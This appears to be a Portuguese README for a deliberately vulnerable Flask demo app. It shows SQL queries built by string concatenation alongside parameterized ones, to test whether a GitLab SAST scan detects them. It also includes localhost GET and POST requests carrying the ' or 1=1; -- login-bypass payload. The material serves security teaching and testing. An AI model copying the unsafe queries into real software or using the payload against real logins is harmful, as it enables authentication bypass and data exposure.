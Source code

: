 
# flask-sql-injection
  

Aplicação Flask + BD para demonstração de uma vulnerabilidade SQL Injection identificada pelo SAST do .gitlab-ci.yml.

## mydb.db

|id|user |password|
|--|--|--|
|1 |teste@teste.com |1234|
|2 |teste2@teste.com |1234|
|3 |teste@teste.com |12345678|
|4 |teste2@teste.com |87654321|
  
## Código

    66 sql_Query_Not_Injection = text("select * from user where id=:user_id")
    67 result = conn.execute(sql_Query_Not_Injection, user_id = id)
    68
    69 sql_Query_Injection_False_Negative = text("SELECT * FROM users WHERE username = '" + username_from_url + "'"
    70                                      " AND password = " + password_from_url)                                         
    71 result = conn.execute(sql_Query_Injection_False_Negative)
    72
    73 # deprecated in SQLAlchemy >=2.0
    74 sql_Query_Injection = "SELECT * FROM users WHERE id={}".format(id)
    75 result = conn.execute(sql_Query_Injection)

 - As linhas 66 e 67 **não contém** uma vulnerabilidade SQL Injection;
 - As linhas 69 e 70 **contém** uma vulnerabilidade SQL Injection, **identificável**  no SAST do .gitlab-ci;

## Deploy com docker compose, com MySQL
```
$ docker compose up -d
```

## Deploy local, com SQLite
```
$ python app/app.py run
```
## Explorando a vulnerabilidade

Importar a collection flask-sql-injection.postman_collection.json no Postman

OU

```
$ GET http://127.0.0.1:5000/login?username=%27%20or%201=1;%20--&password=1234
```

```
POST /login HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 48

username='%20or%201%3D1%3B%20--%20&password=1234
```
Baseado no projeto [EstudosAvancadosSI](https://github.com/BrunoEleodoro/EstudosAvancadosSI)